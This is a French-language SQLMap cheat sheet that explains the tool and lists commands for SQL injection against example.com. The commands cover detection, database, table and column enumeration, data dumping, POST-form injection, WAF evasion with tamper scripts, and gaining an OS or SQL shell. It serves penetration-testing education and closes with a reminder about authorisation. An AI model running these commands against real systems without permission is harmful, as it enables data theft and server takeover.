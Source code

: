 ### **Présentation de SQLMap et Contexte d'Utilisation**

SQLMap est un outil open-source automatisé conçu pour détecter et exploiter des failles de type injection SQL (SQL Injection) dans des applications web. Il est largement utilisé dans les tests de pénétration pour manipuler les bases de données vulnérables et extraire des informations sensibles.

Dans le cadre d'une SQL Injection, SQLMap se distingue par sa capacité à automatiser les tests, à supporter différents types de bases de données (MySQL, PostgreSQL, Oracle, etc.) et à offrir des options avancées pour documenter les vulnérabilités. Grâce à son interface en ligne de commande, SQLMap est un outil puissant et flexible, idéal pour les pentesters et les professionnels de la cybersécurité.

---

### **Commandes SQLMap pour une SQL Injection**

#### **1. Détection et Identification**  
- **Tester une URL pour une vulnérabilité SQL :**  
```bash  
sqlmap -u "http://example.com/page?id=1"  
```  
- **Identifier le type de base de données et la bannière du serveur :**  
```bash  
sqlmap -u "http://example.com/page?id=1" --banner  
```

---

#### **2. Extraction de Données**  
- **Lister les bases de données accessibles :**  
```bash  
sqlmap -u "http://example.com/page?id=1" --dbs  
```  
- **Lister les tables d'une base de données spécifique :**  
```bash  
sqlmap -u "http://example.com/page?id=1" -D nom_base --tables  
```  
- **Lister les colonnes d'une table spécifique :**  
```bash  
sqlmap -u "http://example.com/page?id=1" -D nom_base -T nom_table --columns  
```  
- **Extraire les données d'une table spécifique :**  
```bash  
sqlmap -u "http://example.com/page?id=1" -D nom_base -T nom_table -C nom_colonne --dump  
```

---

#### **3. Attaques Avancées**  
- **Tester une injection dans un formulaire POST :**  
```bash  
sqlmap -u "http://example.com/login" --data="username=admin&password=1234"  
```  
- **Contourner un pare-feu d'application web (WAF) :**  
```bash  
sqlmap -u "http://example.com/page?id=1" --tamper=space2comment  
```  
- **Exécuter une commande système via l'injection SQL :**  
```bash  
sqlmap -u "http://example.com/page?id=1" --os-shell  
```  
- **Accéder à un shell SQL interactif :**  
```bash  
sqlmap -u "http://example.com/page?id=1" --sql-shell  
```

---

#### **4. Options de Personnalisation**  
- **Spécifier une base de données ou une table cible :**  
```bash  
sqlmap -u "http://example.com/page?id=1" -D nom_base -T nom_table  
```  
- **Limiter le test à un type de base de données spécifique :**  
```bash  
sqlmap -u "http://example.com/page?id=1" --dbms=mysql  
```

---

### **Conclusion**

SQLMap est un outil essentiel pour détecter et exploiter les failles SQL Injection grâce à son automatisation et sa puissance. Son utilisation permet d'accélérer l'analyse et de simplifier la documentation des vulnérabilités rencontrées. Toutefois, il est indispensable d'utiliser SQLMap dans un cadre légal et éthique, avec l'autorisation explicite des propriétaires des systèmes testés.
